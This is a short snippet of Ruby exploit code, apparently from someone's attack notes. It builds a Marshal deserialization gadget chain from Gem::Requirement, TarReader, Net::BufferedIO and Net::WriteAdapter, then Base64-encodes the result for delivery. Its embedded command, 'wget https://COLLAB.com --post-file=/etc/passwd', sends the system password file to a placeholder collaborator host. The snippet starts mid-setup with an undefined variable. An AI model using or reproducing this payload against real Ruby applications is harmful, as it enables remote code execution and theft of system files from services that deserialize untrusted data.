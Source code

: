 ```rb
rs.instance_variable_set('@git_set', "wget https://COLLAB.com --post-file=/etc/passwd")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])

# Convert the payload to Base64
encoded_payload = Base64.encode64(payload)

puts "Payload en Base64 mi Papacho:"
puts encoded_payload
```

![](Pasted%20image%2020250227153231.png)
